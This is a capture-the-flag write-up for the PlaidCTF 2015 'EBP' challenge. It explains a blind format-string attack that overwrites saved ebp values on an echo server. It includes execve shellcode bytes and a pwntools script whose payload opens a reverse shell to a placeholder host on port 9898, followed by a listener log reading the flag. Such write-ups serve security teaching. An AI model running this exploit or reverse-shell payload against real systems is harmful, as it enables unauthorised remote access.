 ```yaml
---
layout: post
title: "PlaidCTF 2015 EBP"
date: 2015-04-19 21:27:52 -0400
author: [superkojiman,et0x]
comments: true
categories: [plaidctf]
---
```


### Solved by superkojiman and et0x

superkojiman here; this pwnable challenge was essentially an echo server. Anything we sent to it was sent right back to us. The code was really simple, and there was no NX on the binary which meant we could execute shellcode on the stack. et0x and I quickly found that it was vulnerable to a format string attack when snprintf() was called in the make_response() function:

```
# ./ebp_a96f7231ab81e1b0d7fe24d660def25a.elf 
AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAA.b76bac1a.b77b9440.804a080.bf9e52f8.804852c.1.0.804a080.b77b8ff4.0.0.bf9e5318.8048557.804a080.400.b77b9440
```

However, we found that our format string wasn't on the stack. After doing a bit of searching online, I found an article on blind format string attacks [here](https://www.sec.in.tum.de/assets/Uploads/formatstring.pdf). It specifically talked about modifying ebp such that it ended up redirecting to a memory location of our choosing. Since the challenge was called ebp, I knew I was on the right track. 

Although our format string wasn't on the stack, ebp for make_response() and echo() were! make_response()'s ebp was at offset 4, and echo()'s was at offset 6. By modifying make_response()'s ebp, we could modify main()'s ebp as well so that when main() returned, it would return to our shellcode. A good place to store our shellcode was at buf, which had a static address of 0x0804a080. 

Within minutes et0x had figured out the correct number of bytes to write so that main()'s ebp would be overwritten with 0x0804a080. My initial payload looked like this:

```python
payload = ""
payload += "%134520975u%4$n"
payload +=  buf_addr
payload += "BBBB"
payload += "AAAA" 
payload += "jhh///sh/bin\x89\xe31\xc9j\x0bX\x99\xcd\x80"
```

Sending this payload caused main() to return to 0x42424242, so we successfully gained control of execution. I calculated the offset of the start of the shellcode in the payload and replaced "BBBB" with that address. Here's the final exploit: 

```python
#!/usr/bin/env python
from pwn import *

r = remote("52.6.64.173", 4545)

buf_addr = p32(0x0804a080)
sc_addr  = p32(0x0804A09b)

payload =  "" 
payload += "%134520975u%4$n"
payload += buf_addr
payload += sc_addr
payload += "AAAA"

payload += asm(shellcraft.linux.connect("x.x.x.x", 9898))
payload += asm(shellcraft.linux.dupsh())

print "+ sending payload"
r.send(payload + "\n")
print "+ got back:", r.recv()
```

It took a while for the exploit to work on the server, but when it finally did, I got a reverse shell to the server and was able to grab the flag: 

```text
root@vps123456:~# ncat -lvp 9898
Ncat: Version 6.00 ( http://nmap.org/ncat )
Ncat: Listening on :::9898
Ncat: Listening on 0.0.0.0:9898
Ncat: Connection from 52.6.64.173.
Ncat: Connection from 52.6.64.173:51340.
id
uid=1001(problem) gid=1001(problem) groups=1001(problem)
ls /home/problem
ebp
flag.txt
cat /home/problem/flag.txt
who_needs_stack_control_anyway?
```

The flag was **flag{who_needs_stack_control_anyway?}**
